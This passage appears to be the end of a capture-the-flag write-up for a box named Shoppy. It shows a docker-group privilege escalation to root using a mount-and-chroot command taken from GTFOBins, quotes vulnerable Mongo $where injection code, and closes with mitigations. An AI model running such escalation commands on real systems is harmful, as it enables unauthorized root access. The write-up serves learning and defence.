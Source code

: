 ```bash
deploy@shoppy:/home/jaeger$ groups
deploy docker

deploy@shoppy:/home/jaeger$ docker images
REPOSITORY   TAG       IMAGE ID       CREATED        SIZE
alpine       latest    d7d3d98c851f   2 months ago   5.53MB

```

I knew I could easily get root access with docker. I when to [GTFOBins](https://gtfobins.github.io/gtfobins/docker/#shell) for the command to mount `/` in a container.


```bash
deploy@shoppy:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh

# ls /root
root.txt

# cat /root/root.txt
REDACTED
```

## Mitigation

The first issue with this box was with the Mongo Injection. The code was using user input to build a string that it passed to `$where`.

 ```js
const query = { $where: `this.username === '${username}' && this.password === '${passToTest}'` };
```

It would have been safer to build the query without using `$where`. But this would still require that the data was validated to make sure only strings where used.

```js
const query = { username: `${username}`,  password: `${passToTest}` };
```

Next, the way passwords are used on the box is bad. Josh's password is reused between the main application and the chat server. Jaegear's credentials are sent over chat. And deploy's credentials are easy to get.

Finally, permissions to run `docker` should be restricted. On this box, deploy was allowed to do it, and their credentials were easy to get. That made getting root very easy.
